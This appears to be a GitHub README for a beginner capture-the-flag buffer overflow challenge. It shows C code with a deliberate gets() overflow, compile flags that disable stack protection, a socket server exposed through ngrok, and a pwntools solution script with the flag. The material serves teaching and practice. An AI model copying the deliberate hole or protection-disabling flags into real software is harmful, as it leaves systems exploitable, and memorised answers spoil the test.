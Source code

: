 # b_flow
---
### Category : <i>Binary Exploitation</i>
---

#### Requirements
- Python
- SocketServer module
- pwntools library
- Ngrok

Download all the requirements
   ```bash
   python -m pip install requirements.txt
   ```

#### Description
In this challenge a binary file "fl0w" will be provided to the user with a netcat command,
```bash
  nc <IP router provided> 6667 # ncat for windows
   ```
The binary file is created from the C program "chal2.c" which contains a vulnerability related to "buffer overflow"<p>
```c
#include<stdio.h>
#include<string.h>
#include<stdlib.h>

void ret2win(){
        int key = 0;
        char buffer[32];
        printf("  _____   _                 _     _ \n");
        printf(" / ____| | |         /\\    | |   | |\n");
        printf("| (___   | |        /  \\    \\ \\_/ / \n");
        printf(" \\___ \\  | |       / __ \\    \\   / \n");
        printf(" ____) | | |____  / ____ \\    | |  \n");
        printf("|_____/  |______|/_/    \\_\\   |_|  \n");
        printf("You need to bypass me to get the flag: \n");
        printf(">");
        fflush(stdout);
        gets(buffer);
        if(key==0xf007ba11){
                printf("Redacted\n");
                printf("%04x\n",key);
                fflush(stdout);
        }
        else{
                printf("F4k3_k3y\n");
                printf("%04x\n",key);
                fflush(stdout);
        }
}

int main(int argc , char* argv[]){
        ret2win();
        return 0;
}  
```
</p>

#### Create the binary file from the C code
---

```bash
gcc filename.c -o output -fno-stack-protector -z execstack -no-pie -m32
```

It uses "gets" function which can be exploited to get sensitive information

```bash
chal2.c: In function ‘ret2win’:
chal2.c:17:9: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   17 |         gets(buffer);
      |         ^~~~
      |         fgets
/usr/bin/ld: /tmp/ccWKPnr3.o: in function `ret2win':
chal2.c:(.text+0xc0): warning: the `gets' function is dangerous and should not be used.
```


#### Run the challenge in your local area network
---

To run the code we need to create a socket server in our localhost on any free port (here I used 6667)

```python
#!/usr/bin/python

import socketserver # to create a socket server
import time
import threading
import pwn # to run sub process

class Service(socketserver.BaseRequestHandler):
        def handle(self):
                # this is where we will handle the connection , do what we want to do once someone connects 
                print("Someone Connected")
                io = pwn.process("./b0flow")
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                entered = self.recieve()
                io.sendline(entered)
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())

        def send(self, string , newline = True):
                if newline: string = string 
                self.request.sendall(bytes(string,'utf-8'))     # this request object is internal to the base request handler and used to send data to the client 

        def recieve(self, prompt = ">"):
                self.send(prompt, newline= False)
                return self.request.recv(4096).strip()         # to recieve data from the client 

class TheadedService(socketserver.ThreadingMixIn , socketserver.TCPServer , socketserver.DatagramRequestHandler):
        #this class doesn't need to anything but we need it to exist to make the threaded service and serve it up
        pass


def main():
        port = 6667                     # port to run the challenge
        host = "127.0.0.1"              # visible to LAN

        service = Service

        # server object , using host and port , hosting our service
        server = TheadedService((host,port),service)

        # make the port reusable
        server.allow_reuse_address = True

        # thread the service ! 
        server_thread = threading.Thread(target = server.serve_forever)
        server_thread.start()

        print("Server started on port", port)

        # wait and do nothing
        while True : time.sleep(60)

if __name__ == "__main__":
        main() 
```

Check your IP address : {IP}
   ```bash
   ipconfig # for Windows
   ```
   ```bash
   ifconfig # for Linux
   ```
Run the python program mentioned above ("netc_file_1.py")

Connect it on the client machine
   ```bash
   nc {TCP channel} 6667
   ```

#### Forward the port using Ngrok to run on a public network
---
- Go to https://Ngrok.com and [download](https://ngrok.com/download) ngrok , also [sign up](https://dashboard.ngrok.com/signup) on the website
- go to your dashboard and get your [auth-token](https://dashboard.ngrok.com/get-started/your-authtoken)
- set your environment
  ```bash
  ngrok config add-authtoken <your auth-token> 
  ```
- to forward this code on local tcp port
  ```bash
  ngrok tcp 6667 # 6667 is the port in which I host my service (basically it runs my localhost service in a public channel)

  ```
- there you will get  a tcp channel link like in my case <b><i>tcp://0.tcp.ap.ngrok.io:17426</b></i>
```bash
ngrok                                                                                              (Ctrl+C to quit)
                                                                                                                   
Build better APIs with ngrok. Early access: ngrok.com/early-access                                                 
                                                                                                                   
Session Status                online                                                                               
Account                       PANKAJ BARMAN (Plan: Free)                                                          
Version                       3.5.0                                                                                
Region                        Asia Pacific (ap)                                                                    
Latency                       -                                                                                    
Web Interface                 http://127.0.0.1:4040                                                                
Forwarding                    tcp://0.tcp.ap.ngrok.io:17426 -> localhost:6667                                      
                                                                                                                   
Connections                   ttl     opn     rt1     rt5     p50     p90                                          
                              0       0       0.00    0.00    0.00    0.00 
```
- run this on client side
  ```bash
  nc 0.tcp.ap.ngrok.io 17426
  ```
  That's it
  
```bash
    _____   _                 _     _ 
   / ____| | |         /\    | |   | |
  | (___   | |        /  \    \ \_/ / 
   \___ \  | |       / __ \    \   / 
   ____) | | |____  / ____ \    | |  
  |_____/  |______|/_/    \_\   |_|  
  You need to bypass me to get the flag: 
  >
```

#### Solution
To solve the challenge the participants need to write the code "Solution.py" or need to input bytes data of ( 32 * "A" + "\x11\xba\x07\xf0" ) 

```python
#!/usr/bin/python3
from pwn import *

io= process('./b0flow')
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode())
io.sendlineafter(b'>',b'A'*32 + p32(0xf007ba11))

print(io.recvall().decode())
```
#### Flag
SLAY{Buff3r_bu573r_g33k}
